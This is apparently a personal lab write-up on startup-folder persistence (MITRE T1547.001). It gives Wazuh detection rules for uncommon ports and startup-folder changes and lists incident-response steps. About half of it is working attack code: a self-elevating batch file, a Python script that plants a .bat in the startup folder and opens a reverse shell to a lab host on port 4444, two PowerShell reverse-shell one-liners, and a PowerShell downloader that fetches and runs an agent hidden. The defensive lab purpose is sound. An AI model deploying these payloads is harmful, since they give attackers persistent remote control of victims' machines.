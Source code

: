 ```yaml
---
{"dg-publish":true,"permalink":"/mitreattck-analysis/persistence-t1547-001/persistence-t1547-001/","tags":["mitre"]}
---
```


[[MITREATTCKAnalysis/Threat Analysis with ATT&CK\|Threat Analysis with ATT&CK]]
### Summary
---
### Initials
---
- **Atomic Red Team ID**: T1547.001 - Persistence
- **Description**: Using various techniques to maintain access across system restarts, change credentials or any other interruptions, in this experiment a malware that adds a `.bat` file on the public User's startup folder that creates a reverse shell.
- **Challenges Encountered & Solution*:
	- It requires running the script with administrative privilege.
## Analysis
---
File is added in user's public startup directory, one of the symptoms of a persistence, there are many ways to establish persistence one of the ways is modifying the registry or adding files in the task scheduler:

![Pasted image 20240811215835.png](/img/user/x/images/Pasted%20image%2020240811215835.png)

However the reverse shell or network connection but the command such as `whoami` is detected as well as:

![Pasted image 20240811215850.png](/img/user/x/images/Pasted%20image%2020240811215850.png)

### WAZUH. rule creation
---
In a normal environment, our clients usually connect to _well-known ports_ such as port 21, 80, 443 but rarely on something like 4444 which is the default port used in metasploit for reverse shells.

We can create blacklist or whitelist depending on the fields extracted in the decoding phase by using Wazuh's Constant Database (CDB).

1. Create a file name `/var/ossec/etc/lists/common-ports` at the manager.
2. Then input the most well-known ports (this should be tailored around the environment for example if organization never uses ssh then remove port 21 from the list) follow the format

```
22:
80:
```

3. Change the permission so Wazuh can detect this file:

```bash
chown wazuh:wazuh common-ports
chmod 660 common-ports
```

4. Navigate and open a text editor to `/var/ossec/etc/ossec.conf` and find the `<ruleset>` section and add the following:

```XML
<list>etc/lists/common-ports</list>
```

Should go something like this:

![Pasted image 20240811215904.png](/img/user/x/images/Pasted%20image%2020240811215904.png)
7. Add the rules to detect the attack:

```XML
<!-- Abnormal Destination Port Detected -->  
<rule id="102503" level="10">  
  <if_group>sysmon_event3</if_group>  
  <list field="win.eventdata.destinationPort" lookup="not_address_match_key">etc/lists/common-ports</list>  
  <description>Sysmon - Event 3: Network connection to Uncommon Port by $(win.eventdata.image)</description>  
  <group>sysmon_event3,</group>  
</rule>
```

Should look something like this:

![Pasted image 20240811215909.png](/img/user/x/images/Pasted%20image%2020240811215909.png)
## Incident Response
---
- **Incident identification criteria** - file added to startup folder for either the public or users directory.
- **Investigation steps** - strange process and cmd window popup at start up
- **Containment actions** - disconnect the compromised host
- **Eradication procedures** - remove the file from the startup folder and it's parent image.
- **Recovery steps** - Implemented File Integrity Monitoring with Wazuh to detect changes at start up folders.

```C
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

Run file as administrator:

```C
@echo off

:: Check if the script is running as admin

net session >nul 2>&1

if %errorLevel% neq 0 (

    echo Requesting elevation...

    powershell.exe Start-Process "%~0" -Verb RunAs

    exit /b

)

:: Run the Python script

python "C:\Users\lauraArseid\Documents\evil.py"
```

The Malware:

```python
import sys
import os.path
import os,socket,subprocess,threading;


# Get the python path:
python_path = sys.executable

# Get the current directory of where this python executing
current_file_path = path = os.path.abspath(os.path.dirname(__file__))
current_file_path_name = path = os.path.abspath(__file__)

path = 'C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\bad.bat'

check_file = os.path.isfile(path)

# Revere shgell
def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)
            p.stdin.flush()

def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))

if not check_file:
    # Write a .bat script to execute on user login
    with open("C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\bad.bat", "a") as bad_bat:
        bad_bat.write("@echo off\n")
        bad_bat.write(f'python "{current_file_path_name}"')
else:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.200.200.7",4444))

    p=subprocess.Popen(["sh"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

    s2p_thread = threading.Thread(target=s2p, args=[s, p])
    s2p_thread.daemon = True
    s2p_thread.start()

    p2s_thread = threading.Thread(target=p2s, args=[s, p])
    p2s_thread.daemon = True
    p2s_thread.start()

    try:
        p.wait()
    except KeyboardInterrupt:
        s.close()
```

The reverse shell used:

```
$LHOST = "10.200.200.7"; $LPORT = 4444; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.200.7',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


```Powershell
$server="http://10.200.200.7:8000";  
$url="$server/test.txt";  
$wc=New-Object System.Net.WebClient;  
$wc.Headers.add("platform","windows");  
$wc.Headers.add("file","sandcat.go");  
$data=$wc.DownloadData($url);  
$name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","");  
get-process | ? {$_.modules.filename -like "C:\Users\Public\$name.exe"} | stop-process -f;  
rm -force "C:\Users\Public\$name.exe" -ea ignore;  
[io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data) | Out-Null;  
Start-Process -FilePath C:\Users\Public\$name.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
```


```XML
<group name="syscheck,pci_dss_11.5,nist_800_53_SI.7,">
    <!-- Rules for Windows systems -->
    <rule id="100200" level="7">
        <if_sid>550</if_sid>
        <field name="file">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</field>
        <description>File modified in startup directory.</description>
    </rule>
    <rule id="100201" level="7">
        <if_sid>554</if_sid>
        <field name="file">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</field>
        <description>File added to startup directory.</description>
    </rule>
</group>
```

```XML
<group name="syscheck,pci_dss_11.5,nist_800_53_SI.7,">
  <rule id="100200" level="7">
    <if_sid>550</if_sid>
    <field name="file">^C:\\Users\\.*\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp</field>
    <description>File modified in user startup directory.</description>
  </rule>
  <rule id="100201" level="7">
    <if_sid>554</if_sid>
    <field name="file">^C:\\Users\\.*\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp</field>
    <description>File added to user startup directory.</description>
  </rule>
  
<rule id="100200" level="7">
        <if_sid>550</if_sid>
        <field name="file">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</field>
        <description>File modified in startup directory.</description>
    </rule>
    <rule id="100201" level="7">
        <if_sid>554</if_sid>
        <field name="file">C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp</field>
        <description>File added to startup directory.</description>
    </rule>
</group>
```

![Pasted image 20240811215918.png](/img/user/x/images/Pasted%20image%2020240811215918.png)
